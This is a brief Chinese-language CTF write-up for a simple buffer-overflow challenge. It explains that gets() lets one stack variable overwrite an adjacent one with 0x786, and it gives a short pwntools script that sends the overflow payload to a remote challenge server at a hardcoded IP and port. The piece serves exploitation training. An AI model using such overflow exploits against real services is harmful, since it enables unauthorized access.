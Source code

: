 ![](截图\19.1.png)

gets处让v4溢出覆盖到v5，赋值给0x786

**exp**

```python
from pwn import*
p = remote('111.198.29.45','48691')
p.sendlineafter("Birth?",'2000')
p.sendlineafter("Name","a"*8+p64(0x786))
p.interactive()
```

执行结果
